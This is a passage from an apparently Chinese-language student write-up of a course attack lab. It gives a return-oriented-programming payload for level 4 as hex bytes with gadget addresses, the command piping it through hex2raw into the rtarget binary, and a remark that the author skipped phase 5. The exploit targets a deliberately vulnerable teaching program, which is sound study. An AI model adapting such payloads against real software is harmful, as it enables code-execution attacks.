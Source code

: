 ```cpp
    此处的地址即为弹出栈并转跳的地址
    4. ...
}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
存入level4.txt
cat level4.txt|./hex2raw|./rtarget -q
```

# phase5
先被文档劝退了一波，我由于不能正常使用gdb已经对attacklab兴致全无 这部分就不做了
